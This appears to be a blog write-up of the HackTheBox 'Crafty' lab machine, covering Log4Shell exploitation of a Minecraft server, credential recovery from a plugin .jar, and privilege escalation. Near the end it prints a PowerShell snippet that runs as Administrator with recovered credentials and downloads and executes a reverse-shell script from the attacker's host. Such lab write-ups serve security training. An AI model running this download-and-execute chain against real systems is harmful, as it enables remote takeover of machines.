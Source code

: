 ```yaml
---
layout: post
title: "Crafty-Windows-Easy"
date:   2025-07-10 12:05:57 -0400
categories: writeups
thumb: /assets/images/logos/c01c8813bfc7795ae0717bbee7b407d1.webp
---
```


# Crafty

HackTheBox: Easy

## 1: Enumeration

- nmap scanning

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled.png' | relative_url }})

There are two http services, at 80 port we didn’t find anything useful

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_1.png' | relative_url }})

5985 Port has a vulnerability, let’s see what can we do (CVE-2021-44228)

 This vulnerability, also known as Log4Shell or LogJam, allows remote code execution (RCE) attacks due to a flaw in the JNDI (Java Naming and Directory Interface) feature of Log4j.

Exploiting this vulnerability, attackers could craft malicious JNDI URLs that, when processed by Log4j, would result in the execution of arbitrary code. 

## 2: User flag

We clone the POC’s 

```bash
git clone https://github.com/kozmer/log4j-shell-poc
```

Change the cmd default(Linux) to windows one 

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_2.png' | relative_url }})

Download the right java version

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_3.png' | relative_url }})

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_4.png' | relative_url }})

Download the minecraft client to establish connection with minecraft.

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_5.png' | relative_url }})

Set the environment variables and activate them

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_6.png' | relative_url }})

---

The ‘rlwrap’ command is a utility used in Unix operating systems and it just helps the experience using any command line program

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_7.png' | relative_url }})

---

Start the poc using the following command and send the request

80 Is the port that will be open to establish connection.

4444 will be the port where we are going to receive the rev shell

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_8.png' | relative_url }})

Establish connection with the minecraft client

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_9.png' | relative_url }})

Send the command and get the user shell

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_10.png' | relative_url }})

---

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_11.png' | relative_url }})

## 3: Priv esc

> Looking around(C:\Users\svc_minecraft\server\plugins) we found a .jar file where we could find credentials, so let’s proceed to download it using netcat
> 

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_12.png' | relative_url }})

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_13.png' | relative_url }})

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_14.png' | relative_url }})

We used this decompiler and we opened the file. 

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_15.png' | relative_url }})

Good luck

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_16.png' | relative_url }})

As we don’t have any open port to access as Administrator we have two options:

1. Using msfvenom create a evil .exe and execute it with administrator credentials
2. Create a revese power shell using those credentials, i have never done this technique so it looks interesting
    
    ![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_17.png' | relative_url }})
    
- Set up a python server with the revshell and try to trigger it using:

```powershell
#Create a secure password
$SecPass = ConverTo-SecureString 'password' -AsPlainText -Force
#Crearte a credential
$cred = New-Object System.Management.Automation.PSCredential('Administrator',$SecPass)
#Execute a script which starts on powershell
Start-Process -FilePath "powershell" -argumentlist 
#First argument and download and execurte the script .ps1
"IEX(New-Object Net.WebClient).downloadString('http://ip:port/revshel.ps1')"
#Execute it as admin
-Credential $cred
```

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_18.png' | relative_url }})

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_19.png' | relative_url }})

![Untitled]({{ '/assets/images/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c/80df4b3f-f3ae-4518-a352-b8f790d5a4e9-export-c6755c92-5aef-4c50-9878-b5fac3e5875c_Untitled_20.png' | relative_url }})
<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>
